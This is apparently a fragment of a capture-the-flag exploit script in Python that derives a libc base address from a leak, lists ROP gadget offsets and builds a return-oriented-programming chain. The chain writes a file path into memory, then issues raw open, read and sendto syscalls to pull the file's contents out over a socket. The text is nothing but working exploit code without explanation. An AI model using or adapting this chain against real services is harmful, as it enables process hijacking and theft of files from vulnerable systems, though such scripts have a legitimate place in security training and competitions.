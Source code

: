 ```python
libc.address=u64(data[264+8+8:].ljust(8, b'\0')) - 0x94ac3
log.info("libc.address: " + hex(libc.address))



pop_rax=0x0000000000045eb0+libc.address
bin_sh=libc.address+next(libc.search(b'/bin/sh\0'))
pop_rdi=libc.address+0x000000000002a3e5
pop_rsi=libc.address+0x000000000002be51
pop_rdx=libc.address+0x00000000000796a2
mov_rdi_rdx=libc.address+0x0000000000149709
mov_r8_rbx=0x0000000000121f8a+libc.address
pop_rcx_rbx=libc.address+0x0000000000108b04
ret=pop_rdi+1
xchg_edi_eax=0x000000000009198d+libc.address
mov_rax_r8=0x000000000011db23+libc.address
syscall=0x14101b+libc.address

pl=b''
pl+=p64(pop_rdi) 
pl+=p64(libc.bss(40))
pl+=p64(pop_rdx)
pl+=p64(8319607999311079471)
pl+=p64(mov_rdi_rdx)
pl+=p64(pop_rdi)
pl+=p64(libc.bss(40)+8)
pl+=p64(pop_rdx)
pl+=p64(29099040799945317)
pl+=p64(mov_rdi_rdx)
pl+=p64(pop_rdi)
pl+=p64(libc.bss(40)+16)
pl+=p64(pop_rdx)
pl+=p64(0)
pl+=p64(mov_rdi_rdx)
pl+=p64(pop_rsi)
pl+=p64(0)
pl+=p64(pop_rdx)
pl+=p64(0)
pl+=p64(pop_rdi)
pl+=p64(libc.bss(40))
pl+=p64(pop_rax)
pl+=p64(2)
pl+=p64(syscall)
pl+=p64(xchg_edi_eax)
pl+=p64(pop_rsi)
pl+=p64(libc.bss(40))
pl+=p64(pop_rdx)
pl+=p64(0x100)
pl+=p64(pop_rax)
pl+=p64(0)
pl+=p64(syscall)
pl+=p64(pop_rcx_rbx)
pl+=p64(0)
pl+=p64(0)
pl+=p64(pop_rdi)
pl+=p64(0xb)
pl+=p64(pop_rdx)
pl+=p64(12)
pl+=p64(pop_rax)
pl+=p64(44)
pl+=p64(syscall)


```